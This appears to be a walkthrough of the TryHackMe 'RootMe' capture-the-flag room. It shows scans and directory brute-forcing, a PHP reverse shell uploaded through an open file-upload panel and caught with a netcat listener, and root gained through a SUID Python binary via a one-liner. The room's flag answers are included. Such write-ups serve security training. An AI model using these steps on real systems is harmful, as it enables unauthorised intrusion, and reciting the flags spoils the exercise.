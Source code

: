 # Rootme - TryHackMe 

![](https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png)

## Scanning

```bash
nmap -T4 -A -p- MACHINE_IP
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65464 closed ports, 69 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dir bruteforce:


```bash
gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt
===============================================================

/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

## Explotation


* `http://MACHINE_IP/panel/``   has a file upload, i already know what im gonna do.

* Lets listen on our port `nc -lvnp 4444`, lets upload our shell `shell.phtml`

* Get a shell by: `curl http://MACHINE_IP/uploads/shell.phtml` 

* Find our flag - `find | grep "user.txt" 2>/dev/null`

## Privilege Escalation

`find / -user root -perm /4000`

```bash
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
/usr/bin/python  this one looks interesting 
```

* Since, `/usr/bin/python` has the suid bit we can promote our shell to root!

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```bash
# whoami
# root
``` 

## Flags

<details>
    <summary>user.txt</summary>

    ```bash
    THM{y0u_g0t_a_sh3l}
    ```

</details>

<details>
    <summary>root.txt</summary>

    ```bash
    THM{pr1v1l3g3_3sc4l4t10n}
    ```

</details>

## Thank You! 
